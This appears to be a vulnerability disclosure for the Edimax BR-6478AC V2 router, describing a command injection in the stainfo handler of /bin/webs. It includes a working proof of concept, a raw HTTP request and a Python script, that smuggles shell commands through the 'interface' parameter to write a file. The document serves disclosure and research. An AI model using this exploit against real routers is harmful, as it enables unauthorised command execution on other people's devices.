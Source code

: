 ## Firmware download

You can download BR-6478AC V2 from [here](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_ac1200/br-6478ac_v2).

## Analyze

The ```stainfo``` function in ```/bin/webs``` can receive the command parameter and execute it using ```system```function.

![fig1](https://github.com/countfatcode/temp/blob/main/stainfo/image/4.png)

Using ```FirmAE``` to simulate firmware, capture packets with ```BurpSuite```, and  modify the ```interface``` parameter, successfully create the file  ```vuln.txt``` in the root directory.

![](https://github.com/countfatcode/temp/blob/main/stainfo/image/5.png)

## POC

burpsuite packet.

```shell
POST /goform/stainfo HTTP/1.1
Host: 192.168.2.1
Content-Length: 83
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.1
Referer: http://192.168.2.1/probe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

interface=ens33%20show%20stainfo%20%7C%20touch%20%2Fvuln.txt%20%7C%20iwpriv%20ens33
```

python script

```python
import requests

url = "http://192.168.2.1/goform/stainfo"

payload = {
    "interface": "ens33 show stainfo | echo hacker > /vuln.txt | iwpriv ens33"
}

r = requests.post(url, data=payload)
print(r.status_code)

```



